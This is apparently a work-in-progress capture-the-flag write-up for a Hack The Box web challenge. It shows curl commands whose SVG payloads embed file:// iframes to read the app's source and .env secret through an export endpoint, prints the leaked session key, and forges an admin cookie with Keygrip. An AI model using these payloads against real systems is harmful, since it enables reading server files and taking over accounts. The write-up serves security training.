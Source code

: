 # WIP

This Write Up is a work in progress.

# Notes

Create a user and login.

Induce an error to leak app structure.  Application runs out of /app

```
SyntaxError: Unexpected token w in JSON at position 72<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at parse (:89:19)<br> &nbsp; &nbsp;at /app/node_modules/body-parser/lib/read.js:128:18<br> &nbsp; &nbsp;at AsyncResource.runInAsyncScope (node:async_hooks:199:9)<br> &nbsp; &nbsp;at invokeCallback (/app/node_modules/raw-body/index.js:231:16)<br> &nbsp; &nbsp;at done (/app/node_modules/raw-body/index.js:220:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/app/node_modules/raw-body/index.js:280:7)<br> &nbsp; &nbsp;at IncomingMessage.emit (node:events:402:35)<br> &nbsp; &nbsp;at endReadableNT (node:internal/streams/readable:1343:12)<br> &nbsp; &nbsp;at processTicksAndRejections (node:internal/process/task_queues:83:21)
```

Dump the app source code at /add/index.js

```bash
curl -X POST "http://46.101.27.51:31165/api/export" -H 'Content-Type: application/json' -d '{"svg":"<svg-dummy></svg-dummy><iframe src=\"file:///app/index.js\" width=\"100%\" height=\"5000px\"></iframe><svg viewBox=\"0 0 480 160\" height=\"5000\" width=\"2000\" xmlns=\"http://www.w3.org/2000/svg\"><text x=\"0\" y=\"0\" class=\"Rrrrr\" id=\"demo\">data</text></svg>"}'
```

Dump the SESSION_SECRET_KEY:

```bash
curl -X POST "http://46.101.27.51:31165/api/export" -H 'Content-Type: application/json' -d '{"svg":"<svg-dummy></svg-dummy><iframe src=\"file:///app/.env\" width=\"100%\" height=\"5000px\"></iframe><svg viewBox=\"0 0 480 160\" height=\"5000\" width=\"2000\" xmlns=\"http://www.w3.org/2000/svg\"><text x=\"0\" y=\"0\" class=\"Rrrrr\" id=\"demo\">data</text></svg>"}'
```

key: `5921719c3037662e94250307ec5ed1db`

Create our session cookie by base64 encoding `{"username":"admin"}` -> `eyJ1c2VybmFtZSI6ImFkbWluIn0=`

Sign with Keygrip:

```javascript
> Keygrip = require('keygrip')
[Function: Keygrip] {
  index: [Function],
  verify: [Function],
  sign: [Function]
}
> keylist = ['5921719c3037662e94250307ec5ed1db']
[ '5921719c3037662e94250307ec5ed1db' ]
> signer = Keygrip(keylist)
Keygrip { sign: [Function], verify: [Function], index: [Function] }
> signer.sign('session=eyJ1c2VybmFtZSI6ImFkbWluIn0=')
'EYdvy2mhVoEznETyhYjNYFFZM8o'
```

Refresh the page and get flag:

HTB{fr4m3d_th3_s3cr37s_f0rg3d_th3_entrY}